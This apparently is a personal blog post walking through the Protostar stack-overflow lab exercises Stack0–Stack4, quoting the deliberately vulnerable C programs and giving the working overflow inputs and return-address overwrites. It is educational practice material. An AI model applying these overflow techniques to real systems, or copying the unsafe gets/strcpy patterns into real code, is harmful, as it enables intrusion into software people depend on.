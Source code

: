 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part One"
---
```


**Hello!** - I'm pretty new to hacking, and so far I've solved
some of the levels from the Exploit-Exercises "Nebula" series of
challenges. The Nebula challenges mainly deal with exploiting the UNIX shell &
programs that are running in it. So this is my first foray into
more advanced exploitation.

# [Stack0](https://exploit-exercises.com/protostar/stack0/)

>About
>
>This level introduces the concept that memory can be accessed
>outside of its allocated region, how the stack variables are laid
>out, and that modifying outside of the allocated memory can modify
>program execution.

Included in the first level's description is the source-code of the
program we're about to tear into.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
{% endhighlight %}

This program reads from stdio into `buffer`. Both `buffer` and
`modified` are allocated on the stack, when we feed gets more than 64
characters, the `modified` variable changes, since `buffer`
overflowed into it.

~~~
$ python -c "print('@' * 64)" | /opt/protostar/bin/stack0
Try again?

$ python -c "print('@' * 65)" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
~~~

* * *

# [Stack1](https://exploit-exercises.com/protostar/stack1/)

>##About
>
>This level looks at the concept of modifying variables to
>specific values in the program, and how the variables are laid out in
>memory.
>
> **Hints**
>
> + If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
> + Protostar is little endian


In the source-code provided, the hexadecimal value 61626364 in ASCII
encodes to "abcd". Once again, the length of `buffer` is 64. So I used the
same way of overflowing the buffer as last time.

~~~
$ /opt/protostar/bin/stack1/ `python -c "print('0'*64+'abcd'')"`
Try again, you got 0x64636261
~~~

We're close, but as the hint said, protostar is little endian - meaning that
the least significant bit is stored first. So "abcd" is stored as 64636261 in memory.

~~~
hex   ascii |
64    d     |  abcd in little endian: 0x64636261
63    c     |  abcd in big endian:    0x61626364
62    b     |  dcba in little endian: 0x61626364
61    a     |  dcba in big endian:    0x64636261
~~~

I'll just flip things around & it should work =)

~~~
$ /opt/protostar/bin/stack1/ `python -c "print('0'*64+'dcba')"`
you have correctly got the variable to the right value
~~~

Yay!

* * *

#[Stack2](https://exploit-exercises.com/protostar/stack2/)

> ##About
>
> Stack2 looks at environment variables, and how they can be set.


{% highlight c %}
// ...
variable = getenv("GREENIE");

if(variable == NULL) {
    errx(1, "please set the GREENIE environment variable\n");
}

modified = 0;
strcpy(buffer, variable);
// ...
{% endhighlight %}

This time we need to set `modified` to 0x0d0a0d0a, which in ASCII
encodes to `\n\r\n\r`.

We accomplish this by using python & stuff.

~~~
$ GREENIE=`python -c "print('0'*64+'\n\r\n\r')"` /opt/protostar/bin/stack2
you have correctly modified the variable
~~~

* * *

# [stack3](https://exploit-exercises.com/protostar/stack3/)

>About
>
>Stack3 looks at environment variables, and how they can be set,
>and overwriting function pointers stored on the stack (as a prelude
>to overwriting the saved EIP)
>
>Hints
>
>+ both gdb and objdump is your friend you determining where the win() function lies in memory.

Using objdump I was able to determine the functions address, which
means we're Gucci. Giving the `--prefix-addresses` flag gives us the
location in memory where `win` is stored.

~~~
$ objdump --disassemble --prefix-addresses /opt/protostar/bin/stack3 | grep win
08048424 <win> push %ebp
...
$ python -c "print('0'*64+'\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
~~~

Holy shit it actually worked =)

* * * 

# [stack4](https://exploit-exercises.com/protostar/stack4/)

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
>
>Hints
>
>+ A variety of introductory papers into buffer overflows may help.
>+ gdb lets you do “run < input”
>+ EIP is not directly after the end of buffer, compiler padding can also increase the size.
>

{% highlight c %}
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}


I started out by finding out the location in memory where the
win-function is stored, much like I did in stack3.

~~~
$ objdump --disassemble --prefix-addresses /opt/protostar/bin/stack4 | grep win
080483f4 <win> push % ebp
...
~~~

Now I started to give program input (`python -c "print('a'*
SOME_NUMBER +'\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4`) &
observed what happened; If the program didnt crash - I made
`SOME_NUMBER` bigger. If the program did crash, I just lowered the
amount of leading `a`s.

I started on 64, tried 70 (no crash), tried 80 (crashed), and with
76 leading `a`s I was able to execute the win-function.

~~~
$ python -c "print('a'*76 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
code flow sucessfully changed
Segmentation fault
~~~

I still got a segmentation fault though, well.. whatever :D

* * *

Thanks for reading.

**Useful stuff:**

+ [GDB cheatsheet](http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
